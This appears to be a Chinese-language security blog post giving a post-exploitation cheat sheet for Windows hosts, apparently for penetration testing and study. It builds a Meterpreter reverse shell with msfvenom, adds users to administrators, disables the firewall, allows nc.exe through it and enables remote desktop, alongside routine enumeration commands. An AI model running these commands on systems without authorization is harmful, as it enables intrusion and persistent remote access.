 ```yaml
---
layout: post
title: Windows 主机信息搜集
subtitle: Windows 主机信息搜集
date: 2024-07-24 16:37
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 内网防护
published: true
---
```

## 1. 前置条件

**反弹 shell**

Kali:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost eth0
exploit
```

## 2. 系统信息搜集

```batch
# 解决乱码
chcp 437 # change english
chcp 65001 # UTF-8 编码
chap 936 # GB2312 编码

# 查询操作系统版本
# /B 匹配行的开头
# /C 区分大小写
systeminfo | findstr /B /C:"OS"
# 主机名
hostname
whoami
echo %username%
query user
# 处理器架构
echo %PROCESSOR_ARCHITECTURE%
# 获取开机时间
net statistics workstation 

net user <user> # 查看指定用户权限
net user <user> /active:yes

net localgroup
net localgroup administrators <user> /add
# 进程
tasklist
wmic service|process [where state='Running'] list brief|full
wmic product get name,version

schtasks /query /fo LIST /V # 查看计划任务
```

**cmd 执行 powershell 命令**

```batch
powershell.exe -command "get-process"
```

## 3. 网络信息搜集

```batch
ipconfig /all
# 当前网络连接
# a: 显示所有连接和监听的端口
# n: 以数字格式显示地址和端口
# o: 显示与每个连接关联的进程 PID
netstat -ano
# 本机共享列表
net share
# 以简洁的方式列出共享的信息
wmic share list brief
#自定义显示字段
wmic share get Description,name,path,status
net use
net session
# arp缓存表
arp -a
# 路由表
route print
netstat -r
```

## 4. 安全信息搜集

```batch
# 查看启动程序信息
wmic startup get command,caption
# 查看计划任务
schtasks /query /fo LIST /V
# 查看补丁列表
systeminfo
```

### 4.1. 防火墙

#### 4.1.1. 查看防火墙配置

```batch
netsh firewall show config
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```

#### 4.1.2. 修改防火墙配置

Windows server 2003 及之前版本

```batch
# 允许指定程序通过
netsh firewall all allowprogram c:\nc.exe "allow nc" enable
# 查看防火墙状态
netsh firewall show state
# 关闭防火墙
netsh firewall set opmod disable
```

Windows server 2003 之后版本

```batch
# 允许指定程序
# dir: in|out
netsh advfirewall firewall add rule name="allow nc" dir=in action=allow program="c:\nc.exe"
# 允许指定端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
# 关闭防火墙
netsh advfirewall firewall set allprofiles state off
```

### 4.2. 远程桌面

```batch
# 开启远程桌面服务
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# 开启3389端口
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
# or
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

**windows server 2003开启 3389 端口**

```batch
wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
```

**在 Windows server 2008 和 Windows server 2012 中开启 3389 端口**

```batch
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
# 
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1
# 
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

#### 4.2.1. 远程桌面端口设置

查询 Windows 注册表中与远程桌面服务（RDP）相关的端口设置，特别是 RDP 使用的端口号。

```batch
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber
```

![image.png](https://img.ghostliner.top/qAP2U2.png)

修改远程桌面端口

```batch
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber /T REG_DWORD /D 3389 /F 
```

### 4.3. 自动脚本

WMIC（Windows management instrumentation command-line，windows 管理工具命令行）是最有用的 Windows 命令行工具。在默认情况下，任何版本的 Windows XP 的低权限用户不能访问 WMIC， Windows 7 以上版本的低权限用户允许访问 WMIC 并执行相关查询操作

WMIC 脚本的下载地址：[Coding: wmic_info.bat](https://fuzzysecurity.com/scripts/13.html)

执行该脚本后，会将所有结果写入一个 HTML 文件

#### 4.3.1. Wmic 命令

```batch
wmic service [where state='Running'] list brief|full
wmic product get name,version
wmic startup get command,caption # 查看系统启动信息
wmic qfe list brief # 列出所有安装的补丁
```

#### 4.3.2. Netsh 命令

```batch
netsh firewall show config # 查看防火墙配置
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```

